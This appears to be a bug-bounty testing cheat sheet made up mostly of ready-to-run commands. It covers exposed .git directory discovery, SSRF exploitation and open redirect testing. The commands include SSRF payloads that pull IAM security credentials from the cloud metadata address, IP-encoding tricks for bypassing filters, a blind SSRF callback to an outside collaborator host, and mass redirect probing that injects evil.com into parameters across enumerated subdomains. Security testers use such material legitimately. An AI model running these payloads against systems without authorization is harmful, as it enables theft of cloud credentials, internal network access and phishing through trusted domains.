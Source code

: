Git Repository Disclosure
Exposed .git/ directories can leak sensitive information like source code, credentials and internal logic making them a high-severity issue. This command helps identify .git exposures by filtering valid URLs, probing for the .git/ path and checking for directory listings or exposed content.
cat domains.txt | grep "SUCCESS" | gf urls | httpx-toolkit -sc -server -cl -path "/.git/" -mc 200 -location -ms "Index of" -probe
This command:
Filters successful responses
Uses GF patterns to extract URLs
Tests for .git/ directory exposure
Looks for “Index of” in responses
Checks for directory listing

SSRF Testing & Exploitation
Server-Side Request Forgery (SSRF) is a powerful vulnerability that allows attackers to make the server initiate requests to internal or external resources. This can lead to sensitive data exposure, cloud metadata access, internal port scanning or even remote code execution when chained properly. This section covers a full SSRF testing workflow from identifying vulnerable parameters, using automation tools, crafting bypass payloads, to chaining SSRF with other vulnerabilities for maximum impact.

Look for common SSRF-prone parameters in URLs
cat urls.txt | grep -E 'url=|uri=|redirect=|next=|data=|path=|dest=|proxy=|file=|img=|out=|continue=' | sort -u
Look for API/webhook integrations or cloud metadata patterns
cat urls.txt | grep -i 'webhook\|callback\|upload\|fetch\|import\|api' | sort -u
Nuclei for automated scanning
cat urls.txt | nuclei -t nuclei-templates/vulnerabilities/ssrf/
Basic SSRF to local services
curl "https://target.com/page?url=http://127.0.0.1:80/"
curl "https://target.com/page?url=http://localhost:8080"
Target internal cloud metadata
curl "https://target.com/api?endpoint=http://169.254.169.254/latest/meta-data/"
curl "https://target.com/api?endpoint=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
Bypass filters with alternative IP formats
http://127.0.0.1%23.google.com
http://127.1
http://[::1]/
http://0x7f000001
http://017700000001
DNS rebinding or callback for blind SSRF
curl "https://target.com/page?url=http://yourdomain.burpcollaborator.net"

Open Redirect testing
Open Redirect vulnerabilities allow attackers to redirect users to malicious sites using trusted domain links often used in phishing or session hijacking attacks. This section covers simple to advance methods to detect and test for open redirect issues in URLs and parameters.
cat final.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|url=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee redirect_params.txt
final.txt | gf redirect | uro | sort -u | tee redirect_params.txt
cat redirect_params.txt | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
subfinder -d vulnweb.com -all | httpx-toolkit -silent | gau | gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
cat redirect_params.txt | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
echo target.com -all | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"